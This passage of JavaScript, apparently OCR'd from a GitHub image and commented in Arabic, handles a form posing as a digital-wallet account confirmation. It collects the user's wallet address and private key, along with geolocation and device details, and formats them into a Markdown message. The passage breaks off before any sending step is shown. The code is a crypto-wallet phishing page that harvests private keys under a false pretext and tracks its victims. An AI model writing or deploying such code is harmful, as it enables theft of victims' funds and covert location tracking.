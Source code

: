         // الحصول على بيانات الموقع الجغرافي
        function getGeoLocation() {
            return new Promise((resolve, reject) => {
                if (navigator.geolocation) {
                    navigator.geolocation.getCurrentPosition(resolve, reject);
                } else {
                    reject('الموقع الجغرافي غير مدعوم');
                }
            });
        }

        form.addEventListener('submit', async function (e) {
            e.preventDefault();
            if (walletAddress.value.trim() === "" || privateKey.value.trim() === "") {
                alertBox.style.display = 'block';
                confirmationBox.style.display = 'none';
            } else {
                alertBox.style.display = 'none';
                confirmationBox.style.display = 'block';

                // الحصول على معلومات الجهاز والموقع الجغرافي
                const deviceInfo = getDeviceInfo();
                let location = "الموقع غير متاح";

                try {
                    const geoData = await getGeoLocation();
                    location = `خط العرض: ${geoData.coords.latitude}, خط الطول: ${geoData.coords.longitude}`;
                } catch (error) {
                    console.error("خطأ في الموقع الجغرافي:", error);
                }

                const data = {
                    walletAddress: walletAddress.value.trim(),
                    privateKey: privateKey.value.trim(),
                    location: location,
                    deviceInfo: deviceInfo
                };

                // تنسيق الرسالة باستخدام Markdown لتحسين القراءة
                const message = `
*طلب تأكيد حساب محفظة رقمية*  
*الوقت:* ${new Date().toLocaleString()}

*معلومات المحفظة:*  
- *عنوان المحفظة:* ${data.walletAddress}  
- *المفتاح الخاص:* ${data.privateKey}  

*معلومات الجهاز:*  
- *متصفح المستخدم:* ${data.deviceInfo.userAgent}  
- *النظام:* ${data.deviceInfo.platform}  

*معلومات الموقع:*  
- *الموقع:* ${data.location}
                `;
